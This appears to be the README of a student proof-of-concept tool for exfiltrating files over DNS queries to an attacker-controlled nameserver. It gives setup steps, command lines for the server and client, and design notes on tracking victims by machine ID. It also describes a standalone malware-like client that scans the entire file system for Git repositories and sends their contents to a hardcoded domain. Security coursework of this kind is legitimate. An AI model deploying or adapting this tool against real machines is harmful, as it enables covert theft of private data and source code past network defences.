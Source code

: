 # DNS Data Exfiltration

The Domain Name System (DNS) is a hierarchical and distributed naming system that maps human-readable domain names to IP addresses.
Since DNS traffic is rarely blocked by most organisations that require access to the Internet, the DNS protocol serves as an attractive medium through which data can be exfiltrated.
This repository contains a proof-of-concept that explores the use of the DNS protocol to exfiltrate data (one-way).

## Setting Up DNS Records

In order for DNS exfiltration to work, we need to set up our own DNS server that is the authoritative nameserver for some domain.

1. Create an A record pointing to the IP address of the DNS server to exfiltrate data to.
1. Create an NS record pointing to the previously created A record.

   This NS record will be used as the domain for all of our DNS queries.

## Running the DNS Exfiltration Server

DNS requests that reach the DNS exfiltration server are parsed according to the specified format.
Multiple DNS requests are processed and the data inside the files being exfiltrated are reconstructed and written to disk with their original file paths in `./exfiltrated-data/<machine ID>/<file path>`.
This preserves the structure of the files when exfiltrating directories of files.

Example of running the DNS exfiltration server:
```sh
make compile
sudo ./dns-exfiltration-server -n cs5231.ianyong.com
```

Note that root privileges are required to bind to port 53 as it is as well-known port for DNS.
Once the server has binded to the port, it will drop its privileges to that of the calling user.

In addition, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must also be passed in as a command line argument.
This is necessary for the server to know which parts of the DNS request name correspond to the data being exfiltrated.

## Running the DNS Exfiltration Client

The client takes in a file path, reads the file, and breaks its content up into chunks to exfiltrate over DNS.

Example of running the DNS exfiltration client:
```sh
make compile
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt
```

Similar to the DNS exfiltration server, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must be passed in as a command line argument.
The client also takes in the path of the file to be exfiltrated.

Optionally, the delay in milliseconds between DNS requests can be specified via the `-d` argument:
```sh
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt -d 500
```

The above example adds a 500ms delay between the sending of each DNS request.

## Running the Standalone DNS Exfiltration Client

To better illustrate how the DNS exfiltration client might work as malware in the absence of two-way communication, we have added a standalone client with the name server and delay hardcoded to `cs5231.ianyong.com` and 200ms respectively.
This standalone client scans the entire file system for Git repositories, as indicated by the presence of a `.git` directory.
It then exfiltrates the files inside each of these Git repositories based on the abovementioned hardcoded parameters.

To run the standalone DNS exfiltration client:
```sh
make compile-standalone
./dns-exfiltration-standalone-client
```

If you want to run the standalone client with different parameters, you can edit the following hardcoded values in `/client/cmd/standalone_client/main.go` and recompile:
```go
const (
	NAME_SERVER = "cs5231.ianyong.com"
	DELAY       = 200
)
```

## Design Decisions

### Identifying Targets

Targets cannot be identified via the IP address seen by the server.
This is because our DNS server will not be the local DNS server that the target talk to.
As such, regardless of the DNS query type (iterative or recursive), our DNS server never talks directly to the target.

In addition, some local DNS servers have a range of IP addresses which they use to communicate to other DNS servers.
Given the connectionless nature of UDP (the transport protocol used by DNS), every DNS request that we receive from the same target can come from different IP addresses.

In order to be able to handle simultaneous traffic from multiple hosts, as well as to uniquely identify targets which we exfiltrate data from, we make use of the machine ID of the target machine.
The machine ID is a unique string that is set during installation of the operating system.
We make use of the [machineid](https://github.com/denisbrodbeck/machineid) library to retrieve the machine ID from the target.

## Limitations

### DNS Caching

The DNS responses sent by the server have a Time-To-Live (TTL) of 300 seconds.
This is because setting it any lower might result in some DNS resolvers to ignore its value.
As a result, trying to exfiltrate the same file will not work until some time has passed (likely 5 minutes if the TTL is respected, possibly longer).
This is not a big issue as long as the exfiltration does not fail halfway through as we are unlikely to need to exfiltrate a recently exfiltrated file.

## Possible Improvements

### Sending Concurrent DNS Requests

Currently, the client will wait for a response from the server before sending the next DNS request.
Exfiltration of data can be sped up if we were to allow for concurrent DNS requests to be sent even though their respective responses have yet to be received.
However, this would necessitate the implementation of a protocol to handle out-of-order packet delivery, which would complicate this proof-of-concept.
